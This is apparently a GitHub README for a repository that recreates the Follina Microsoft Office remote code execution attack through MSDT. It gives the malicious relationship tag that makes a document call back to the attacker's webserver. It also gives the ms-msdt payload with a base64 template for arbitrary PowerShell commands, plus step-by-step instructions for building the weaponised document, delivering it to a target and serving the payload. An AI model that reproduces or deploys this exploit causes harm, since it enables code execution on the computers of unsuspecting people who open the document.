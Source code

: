 # Microsoft Office RCE - “Follina” MSDT Attack 

This is a repository to hold files needed to recreate the Follina Attack. 

## How does Follina work? 

Take a word document and unzip it. (unzip file.doc) In the word/_rels/document.xml.rels document there are relationship tags used to get external links for items like font. You can add a relationship to have the document connect to your webserver, pull a file, and run it. 
```
<Relationship Id="rId996" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="http://LOCAL_IP:PORT/index.html!" TargetMode="External"/>
```
The Docoument included in this repo has this relationship tag added with a dummy IP that can be easily replaced for usage. 

Once you have the document calling back, you need to create an html file to carryout the exploit. 

The html document uses a script that uses MSDT to run powershell commands as the user that opened the word document. 

Here is the main section of the payload: 
```
location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=/../../$(calc)/.exe\""
```
This sample uses the exploit to open the calculator application. This version of the payload requires 

- At a minimum, two /../ directory traversals were required at the start of the IT_BrowseForFile parameter
- Code wrapped within $() would execute via PowerShell, but spaces would break it
- “.exe” must be the last trailing string present at the end of the IT_BrowseForFile parameter 
(This text was taken from John Hammonds Huntress Post which is linked at the end. )

There is another version of the payload which allows you to execute any powershell commands, but the command must be base64 encoded. Here is the payload for the same calc exploit using the base64 encoding. 
```
<script>location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'Y2FsYw=='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\""; 
```
The base64 encoding of "calc" is 'Y2FsYw=='.  So to use this for any exploit the syntax would be
```
<script>location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'BASE64_ENCODED_COMMAND'+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\""; 
```
The index_template.html file has the exploit with a BASE64_ENCODED_COMMAND place holder to simplify things. 

The last part of the exploit is to fill it with random characters to meet the minimum of 4096 bytes to execute, and closing the script tag. 

When the user opens the document, the reference file calls for the index.html file from our webserver. It will then run the file, utilizing the msdt to run our payloads. 

## How can you use it? 

### Creating your own exploit. This is a two part process. 

Part One: creating the document. 
1. unzip the microsoft doc
2. Add relationship tag to the word/_rels/document.xml.rels file. (if you are using the template, just change the IP address to your local machine) 
3. re-zip the file into a .doc extension 
4. Get document onto the target system. Note: at time of writing gmail does detect this exploit and will not allow the file to be sent. 

Part Two: creating the html file.
1. Create a payload.txt file with powershell commands. If there are multiple commands separate with a ; and not a newline. 
2. base64 encode the file 
```
base64 -w 0 payload.txt
```
3. Copy and paste encoded payload into the index.html file between the char34 operators. 

```
'+[char]34+'BASE64_ENCODED_PAYLOAD_HERE'+[char]34+'
```
This is marked in the index_template.html file. 
4. Run a webserver in the same folder as the index.html file. You can use a python simple webserver 

```
python3 -m http.server PORT
```
This port must match the port put into the word document. 

### Using a Proof of Concept Script 
JohnHammond Premade Proof of Concept Code: https://github.com/JohnHammond/msdt-follina This code can be ran without any additional steps.  


## Further Reading 
https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug 
